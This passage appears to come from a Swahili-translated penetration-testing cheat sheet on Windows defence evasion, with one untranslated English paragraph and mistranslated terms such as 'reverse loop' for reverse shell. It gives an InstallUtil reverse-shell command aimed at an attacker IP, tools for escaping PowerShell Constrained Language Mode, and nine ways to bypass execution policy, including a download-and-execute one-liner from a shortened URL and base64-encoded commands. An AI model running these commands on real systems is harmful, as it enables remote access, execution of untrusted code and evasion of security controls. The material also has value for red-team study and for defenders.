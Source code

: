Reverse shells can be created using various techniques, such as exploiting vulnerable services, injecting malicious code into legitimate processes, or using tools specifically designed for creating reverse shells. It is important for system administrators to be aware of the risks associated with reverse shells and take appropriate measures to protect their systems from such attacks.

#### Kitanzi cha nyuma:

Kitanzi cha nyuma ni aina ya kitanzi ambapo kifaa cha lengo kinainisha uhusiano na kifaa cha mshambuliaji. Hii inaruhusu mshambuliaji kupata ufikiaji wa kijijini kwa kifaa cha lengo na kutekeleza amri. Kitanzi cha nyuma mara nyingi hutumiwa katika mazingira ya udukuzi ili kuepuka firewalls na kupata ufikiaji usiohalali kwa mifumo.

Ili kuunda kitanzi cha nyuma, mshambuliaji anahitaji kuweka msikilizaji kwenye kifaa chao na kisha kutumia udhaifu kwenye kifaa cha lengo ili kuweka uhusiano. Mara uhusiano unapowekwa, mshambuliaji anaweza kutumia kitanzi cha nyuma kuendesha amri kwenye kifaa cha lengo kana kwamba wako mbele yake.

Kitanzi cha nyuma kinaweza kuundwa kwa kutumia njia mbalimbali, kama vile kutumia huduma zenye udhaifu, kuingiza nambari mbaya kwenye michakato halali, au kutumia zana zilizoundwa kwa ajili ya kuunda kitanzi cha nyuma. Ni muhimu kwa watawala wa mfumo kufahamu hatari zinazohusiana na kitanzi cha nyuma na kuchukua hatua sahihi za kulinda mifumo yao kutokana na mashambulizi kama hayo.
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```
Unaweza kutumia [**ReflectivePick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) au [**SharpPick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) kutekeleza kificho cha **Powershell** katika mchakato wowote na kuepuka hali iliyozuiwa. Kwa maelezo zaidi angalia: [https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode](https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode).

## Sera ya Utekelezaji ya PS

Kwa chaguo-msingi, imewekwa kama **iliyozuiwa.** Njia kuu za kuepuka sera hii ni:
```powershell
1º Just copy and paste inside the interactive PS console
2º Read en Exec
Get-Content .runme.ps1 | PowerShell.exe -noprofile -
3º Read and Exec
Get-Content .runme.ps1 | Invoke-Expression
4º Use other execution policy
PowerShell.exe -ExecutionPolicy Bypass -File .runme.ps1
5º Change users execution policy
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
6º Change execution policy for this session
Set-ExecutionPolicy Bypass -Scope Process
7º Download and execute:
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://bit.ly/1kEgbuH')"
8º Use command switch
Powershell -command "Write-Host 'My voice is my passport, verify me.'"
9º Use EncodeCommand
$command = "Write-Host 'My voice is my passport, verify me.'" $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) $encodedCommand = [Convert]::ToBase64String($bytes) powershell.exe -EncodedCommand $encodedCommand
```
Unaweza kupata zaidi [hapa](https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/)
